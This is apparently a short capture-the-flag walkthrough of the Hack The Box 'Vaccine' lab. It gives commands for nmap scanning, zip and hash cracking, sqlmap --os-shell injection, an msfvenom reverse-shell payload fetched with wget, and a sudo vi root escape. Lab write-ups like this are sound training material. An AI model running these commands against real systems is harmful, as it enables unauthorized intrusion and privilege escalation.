 ```yaml
---

title: Vaccine
published: true
category: CTF
system: web
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: An easy box with with a sql injection vulnerability.
tags: Databases, Injection, Apache, PostgreSQL, FTP, PHP, Password Cracking, RCE
---
```


Start with adding Vaccine to `/etc/hosts` then after the initial nmap scan we can service scan the 3 ports we discover.

- `sudo nmap -sC -sV -O -p21,22,80 vaccine.htb -oN nmap_second`

FTP access allows anonymous login we can grab a file `backup.zip` from there. Trying to unzip this file we have a password protected zip file containingh index.php and style.css

We can use johns `zip2john backup.zip > backup.zip.hash` to create a readable hash we can feed to john to crack the zipfile. once complete feed to john with `john backup.zip.hash` and we find the password `741852963`.

Checking the index.php we find some credentials `admin` and an md5 password which we can feed to crackstation.net and get `qwerty789` Login to admin.

The next page we coem to has a search and using sqlmap to test for injection we get lucky `sqlmap -u http://vaccine.htb/dashboard.php?search=1 --os-shell --cookie=PHPSESSID=o4htgfqc51canihdh9o93rdc44`

we can use this to get a reverse shell on the target. 

- generate payload `msfvenom -p linux/x86/meterpreter_reverse_tcp -f elf LHOST=10.10.16.193 LPORT=8765 > rev.elf` and wget over to the target.

After setting up a multi handler with the correct payload ./rev.elf and get a shell. We could have also just read the .ssh file inside the postgres home dir and grab the id_rsa. Doing that now for a stable connection.

Inside the /var/www/html we find a dashboard.php with postgres creds. `P@s5w0rd!` allowing us to run `sudo -l`

```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
- FOLLOWED BY `:!/bin/sh` and we are root.








